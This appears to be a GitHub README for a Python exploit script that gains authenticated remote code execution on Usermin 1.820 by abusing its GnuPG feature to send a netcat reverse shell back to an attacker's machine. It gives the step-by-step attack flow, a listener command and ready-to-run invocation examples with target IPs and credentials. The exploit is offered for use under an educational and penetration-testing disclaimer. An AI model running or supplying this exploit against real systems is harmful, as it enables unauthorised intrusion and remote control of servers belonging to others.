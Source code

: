 # Usermin 1.820 - Remote Code Execution (RCE) (Authenticated)

## Description
This repository contains an exploit script for **Usermin 1.820** (and possibly earlier versions) that enables remote code execution (RCE) after successful authentication. I rewrote this script from scratch to address issues with existing commands that didn't function properly. This script allows for flexible user input and is shared to help others who may need a working exploit for educational or ethical penetration testing purposes.

## Features
- **Authenticated RCE**: Executes arbitrary commands on the target system after successful authentication.
- **Dynamic Input**: Allows specification of `lhost` and `lport` parameters for reverse shell payload configuration.
- **Detailed Logging**: Provides informative messages at each step to indicate success or failure.
- **Error Handling**: Includes basic error handling and checks to ensure smooth execution.

## Technical Explanation
The script performs the following steps:
1. **Establishes a Session**: Connects to the target Usermin instance over HTTPS on port 20000.
2. **Authenticates**: Logs in using the provided username and password.
3. **Injects Payload**: Uses GnuPG functionality to create a payload that triggers a reverse shell to the specified `lhost` and `lport`.
4. **Executes Command**: Fetches and manipulates the key list to execute the payload, resulting in a shell connection back to the attacker.

### Key Components:
- **`argparse` Module**: Used to take user inputs for `host`, `login`, `password`, `lhost`, and `lport`.
- **`requests` Module**: Handles HTTP(S) requests to the target.
- **Reverse Shell Payload**: Constructs and sends a netcat-based payload to establish a shell connection.

## Usage
Ensure you have the required credentials and network setup before running the script.

### Steps:
1. **Set up a listener** on your attacking machine:
   ```bash
   nc -nlvp 1337
   ```

2. **Run the exploit** with the appropriate parameters:
   ```bash
   python3 usermin.py --host <TARGET_IP> --login <USERNAME> --password <PASSWORD> --lhost <YOUR_LHOST> --lport <YOUR_LPORT>
   ```

### Example:
```bash
python3 usermin.py --host 192.168.1.10 --login admin --password password123 --lhost 192.168.45.192 --lport 1337
```

## Requirements
- **Python 3**
- **`requests` library**: Ensure it is installed (`pip install requests`).
- **Netcat**: Used for listening on the attacker's machine.

## Disclaimer
This exploit is provided for educational purposes and ethical penetration testing only. Unauthorized use on systems without the owner's consent is illegal and could result in severe consequences. Use responsibly and ensure you have permission before testing any system.
